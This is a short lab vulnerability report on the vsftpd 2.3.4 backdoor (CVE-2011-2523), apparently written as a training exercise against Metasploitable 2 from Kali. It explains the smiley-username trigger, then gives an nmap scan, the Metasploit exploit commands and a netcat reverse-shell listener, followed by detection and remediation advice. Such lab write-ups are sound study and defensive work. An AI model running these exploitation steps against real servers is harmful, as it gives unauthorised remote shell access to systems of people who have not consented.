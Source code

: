 
# 🔒 Vulnerability Report: vsftpd 2.3.4 Backdoor

---

## 📌 Vulnerability Report
- **Vulnerability Name:** vsftpd 2.3.4 Backdoor
- **Severity:** Critical
- **Tool Used:** Metasploit Framework
- **CVE:** CVE-2011-2523

---

## 🎯 Impact
This version of vsftpd contains a backdoor that allows attackers to get a shell by simply including a `:)` smiley in the username. Once the backdoor is triggered, the server spawns a shell on port 6200, which the attacker can connect to for remote access.

---

## 🧪 Proof of Concept

### 🧾 Nmap Scan
```bash
nmap -sV -p 21 <target-ip>
```

### ✅ Output
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

### 🎯 Exploitation with Metasploit
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-ip>
set RPORT 21
run
```

If successful, a shell session will be opened.

---

## 🖥️ Detection Focus

- **Monitoring Tool:** Netcat or SIEM (Sysmon/Winlogbeat with Elastic Stack)
- **Behavior to Detect:** Unexpected reverse shell connection from the victim (Metasploitable2) to the attacker (Kali).
- **Netcat Listener Example:**
```bash
nc -lvnp 4444
```

---

## 🛡️ Recommendation

- Do not use outdated or unmaintained software.
- Replace vsftpd 2.3.4 with a newer, secure version.
- Restrict access to FTP services.
- Monitor logs for suspicious login attempts.
- Disable anonymous login.

---

## 📊 Summary Table

| Field            | Value                          |
|------------------|-------------------------------|
| Target           | Metasploitable 2               |
| Attacker         | Kali Linux                     |
| Vulnerability    | vsftpd 2.3.4 backdoor          |
| Exploit Used     | exploit/unix/ftp/vsftpd_234_backdoor |
| Tools Used       | Nmap, Metasploit, Netcat       |
| Outcome          | Successful reverse shell       |
